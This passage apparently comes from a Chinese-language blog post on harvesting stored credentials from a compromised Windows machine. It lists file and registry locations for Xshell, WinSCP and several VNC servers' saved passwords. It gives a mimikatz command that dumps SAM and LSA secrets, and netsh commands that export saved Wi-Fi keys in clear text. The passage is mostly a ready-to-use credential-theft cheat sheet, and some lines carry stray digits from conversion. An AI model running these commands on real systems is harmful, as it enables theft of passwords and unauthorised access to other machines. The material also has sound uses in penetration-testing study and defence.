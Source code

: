 

**Xshell：**



<table cellpadding="0" cellspacing="0"><tbody><tr><td style="vertical-align:top;"><p>Xshell 5</p></td><td style="vertical-align:top;"><p>%userprofile%\Documents\NetSarang\Xshell\Sessions</p></td></tr><tr><td style="vertical-align:top;"><p>Xshell 6</p></td><td style="vertical-align:top;"><p>%userprofile%\Documents\NetSarang &nbsp;Computer\6\Xshell\Sessions</p></td></tr></tbody></table>



![](https://img-blog.csdnimg.cn/20200827181034140.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



**WinSCP：**



<table cellpadding="0" cellspacing="0"><tbody><tr><td style="vertical-align:top;"><p>HKCU\Software\Martin &nbsp;Prikryl\WinSCP 2\Sessions</p></td></tr></tbody></table>



**VNC:**



<table cellpadding="0" cellspacing="0"><tbody><tr><td style="vertical-align:top;"><p>RealVNC</p></td><td style="vertical-align:top;"><p>HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\vncserver</p></td><td style="vertical-align:top;"><p>Password</p></td></tr><tr><td style="vertical-align:top;"><p>TightVNC</p></td><td style="vertical-align:top;"><p>HKEY_CURRENT_USER\Software\TightVNC\Server &nbsp;Value</p></td><td style="vertical-align:top;"><p>Password &nbsp;or PasswordViewOnly</p></td></tr><tr><td style="vertical-align:top;"><p>TigerVNC</p></td><td style="vertical-align:top;"><p>HKEY_LOCAL_USER\Software\TigerVNC\WinVNC4</p></td><td style="vertical-align:top;"><p>Password</p><p></p></td></tr><tr><td style="vertical-align:top;"><p>UltraVNC</p></td><td style="vertical-align:top;"><p>C:\Program &nbsp;Files\UltraVNC\ultravnc.ini</p></td><td style="vertical-align:top;"><p>passwd or &nbsp;passwd2</p></td></tr></tbody></table>



### VPN账号密码



```
mimikatz.exe privilege::debug token::elevate lsadump::sam lsadump::secrets exit
```




也可以使用图形化命令工具 Dialupass.exe



### WIFI账号密码



```
#查看帮助      
netsh wlan help       
#列出无线接口      
netsh wlan show interface       
#开启无线接口      
netsh interface set interface "Interface Name" enabled       1
#显示连接过的WIFI的配置文件      1
netsh wlan show profiles       1
#连接指定wifi      1
netsh wlan connect name=xxxx       1
#断开连接      1
netsh wlan disconnect       2
#查看连接过的WIFI的配置文件(包含账号密码)，需要管理员权限执行      2
netsh wlan export profile interface=WLAN key=clear folder=C:\      2
#然后使用type命令查看配置文件      2
```